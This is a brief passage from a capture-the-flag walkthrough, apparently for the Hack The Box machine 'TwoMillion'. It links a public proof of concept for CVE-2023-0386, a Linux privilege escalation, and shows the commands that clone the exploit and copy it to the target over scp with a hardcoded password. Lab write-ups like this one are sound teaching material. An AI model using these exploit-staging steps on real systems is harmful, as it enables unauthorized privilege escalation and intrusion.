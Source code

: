 ![](/assets/obsidian/a33834e050053be592bbb30ef6d83756.png)

Found POC on github: https://github.com/xkaneiki/CVE-2023-0386

Copy the POC to target

```bash
┌──(kali㉿kali)-[~/htb/TwoMillion/www]
└─$ git clone https://github.com/xkaneiki/CVE-2023-0386

┌──(kali㉿kali)-[~/htb/TwoMillion/www]
└─$ sshpass -p 'SuperDuperPass123' scp -r CVE-2023-0386 admin@2million.htb:/tmp/
```

